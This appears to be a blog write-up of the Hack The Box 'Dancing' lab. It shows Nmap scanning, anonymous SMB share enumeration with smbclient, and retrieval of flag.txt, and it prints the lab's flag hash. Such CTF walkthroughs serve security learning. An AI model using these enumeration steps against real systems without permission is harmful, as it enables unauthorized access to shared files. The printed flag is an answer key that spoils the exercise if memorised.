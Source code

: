 ```yaml
---
layout: post
title: "Dancing – Hack The Box"
categories: htb
date: 2025-07-19
---
```


## 🧠 Summary
The Dancing machine from HTB Starting Point demonstrates enumeration and exploitation of SMB shares using anonymous access. We'll use **Nmap** for scanning and **smbclient** for accessing shares without credentials.

---

## 🔍 Tools Used
- **Nmap** – Network scanning and service enumeration
- **smbclient** – SMB share access and file retrieval

---

## ✅ Steps to Exploit

### 1. Reconnaissance with Nmap
First, scan the target for open ports and services:
```bash
nmap -sC -sV 10.129.207.91
```
Result:

![Nmap Scan Result](/assets/img/htb/dancing/nmapdancing.jpg)

Key Findings:
- Port 135 → Microsoft RPC
- Port 139 → NetBIOS
- Port 445 → SMB (microsoft-ds)

### 2. Enumerate SMB Shares
List available shares anonymously:
```bash
smbclient -L \\\\10.129.207.91\\ -N
```
**-L** : To list available shares

**-N** : No password prompt (useful for anonymous/guest access)

Result: Found a share named WorkShares

![List of SMB Shares](/assets/img/htb/dancing/smbshares.jpg)

### 3. Access the WorkShares Share
Connect without a password:
```bash
smbclient \\\\10.129.207.91\\WorkShares -N
```
List the folders:
```bash
ls
```
We will see:
```bash
Amy.J
James.P
```

### 4. Browse Directories and Find the Flag
Navigate into Amy.J:
```bash
cd Amy.J
ls
```
File found: worknotes.txt (not needed for flag, but useful for context)

Go back and enter James.P:
```bash
cd ..
cd James.P
ls
```
Here we find flag.txt.
![Get Flag File](/assets/img/htb/dancing/getflag.jpg)


### 5. Download and Read the Flag
Download the flag file:
```bash
get flag.txt
```
Read it locally:
```bash
cat flag.txt
```
Flag:
```bash
5f61c10dffbc77a704d76016a22f1664
```
![Read Flag File](/assets/img/htb/dancing/readflag.jpg)

### Alternative Method (Optional)
You could also enumerate SMB shares using enum4linux or exploit with Metasploit:
```bash
use auxiliary/scanner/smb/smb_login
```

### Key Takeaways
- SMB shares are often misconfigured for anonymous access.
- Always start with Nmap, then enumerate with smbclient.
- Use Metasploit or enum4linux for automation in real-world scenarios.
